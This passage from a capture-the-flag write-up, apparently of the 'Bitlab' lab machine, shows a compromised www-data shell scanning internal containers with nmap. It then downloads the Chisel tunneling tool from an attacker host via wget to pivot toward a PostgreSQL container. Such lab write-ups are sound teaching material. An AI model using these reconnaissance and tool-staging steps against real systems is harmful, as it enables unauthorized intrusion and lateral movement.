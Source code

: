 `nmap` is on the host, and will quickly show me the containers:

```

www-data@bitlab:/srv$ nmap  172.19.0.2-5                                                                                            

Starting Nmap 7.60 ( https://nmap.org ) at 2019-09-08 14:16 UTC
Nmap scan report for 172.19.0.2
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8181/tcp open  intermapper

Nmap scan report for 172.19.0.3
Host is up (0.00048s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 172.19.0.4
Host is up (0.00047s latency).
All 1000 scanned ports on 172.19.0.4 are closed

Nmap scan report for 172.19.0.5
Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap done: 4 IP addresses (4 hosts up) scanned in 0.20 seconds

```

.2 and .3 are candidates to be Gitlab, and the postgres host is .5.

I also see that the local box is listening on 5432. This is a forward into the postgres container, so I can talk to either.

### Tunneling

I want to check the database, but `psql` isn’t on the box. I did some testing, and it looks like the firewall is blocking any incoming ports that aren’t meant to be up, so I can’t just use `socat` to create a tunnel. I’ll upload [Chisel](https://github.com/jpillora/chisel), my [go to for this kind of thing](/cheatsheets/chisel). I’ll upload it:

```

www-data@bitlab:/dev/shm$ wget 10.10.14.30/chisel
--2019-09-08 15:53:50--  http://10.10.14.30/chisel
Connecting to 10.10.14.30:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10459399 (10.0M) [application/octet-stream]
Saving to: 'chisel'

chisel                                                 100%[============================================================================================================================>]   9.97M   260KB/s    in 30s     

2019-09-08 15:54:20 (337 KB/s) - 'chisel' saved [10459399/10459399]

www-data@bitlab:/dev/shm$ chmod +x chisel

```
